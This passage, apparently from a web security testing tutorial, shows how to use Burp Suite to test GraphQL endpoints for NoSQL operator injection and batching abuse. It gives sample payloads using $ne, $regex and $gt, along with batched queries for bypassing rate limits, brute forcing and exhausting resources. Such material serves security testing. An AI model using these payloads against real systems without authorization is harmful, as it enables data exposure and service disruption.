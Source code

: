1. **Create a base request in Burp Repeater**:
   ```
   POST /graphql HTTP/1.1
   Host: example.com
   Content-Type: application/json
   
   {"query": "query { user(username: \"admin\") { id username email } }"}
   ```

2. **Test NoSQL operator injections**:
   - Replace the parameter value with NoSQL operators:
     - `{"query": "query { user(username: {\"$ne\": null}) { id username email } }"}`
     - `{"query": "query { user(username: {\"$regex\": \"^adm\"}) { id username email } }"}`
     - `{"query": "query { user(username: {\"$gt\": \"\"}) { id username email } }"}`

3. **Use Burp Intruder for more comprehensive testing**:
   - Set up positions around the parameter value
   - Use a list of NoSQL injection payloads
   - Configure grep match rules to identify successful injections

4. **Analyze results**:
   - Look for responses that return data when they shouldn't
   - Check for different error messages that reveal information about the database
   - Verify if operators like `$ne` or `$regex` work, indicating NoSQL injection vulnerabilities

### Batching Attacks

GraphQL allows sending multiple operations in a single request, which can be abused for various attacks:

```graphql
[
  { 
    "query": "query { user(id: \"1\") { id username } }"
  },
  {
    "query": "query { user(id: \"2\") { id username } }"
  },
  {
    "query": "query { user(id: \"3\") { id username } }"
  }
  // ... hundreds more queries
]
```

This can be used for:

1. **Rate limit bypass**: If rate limiting is implemented per-request rather than per-operation
2. **Brute force attacks**: Testing many different values in a single request
3. **Resource exhaustion**: Overwhelming the server with many operations

Testing batching attacks with Burp Suite:

1. **Create a batch request template in Burp Repeater**:
   ```
   POST /graphql HTTP/1.1
   Host: example.com
   Content-Type: application/json
   
   [
     {"query": "query { user(id: \"1\") { id username } }"},
     {"query": "query { user(id: \"2\") { id username } }"}
   ]
   ```
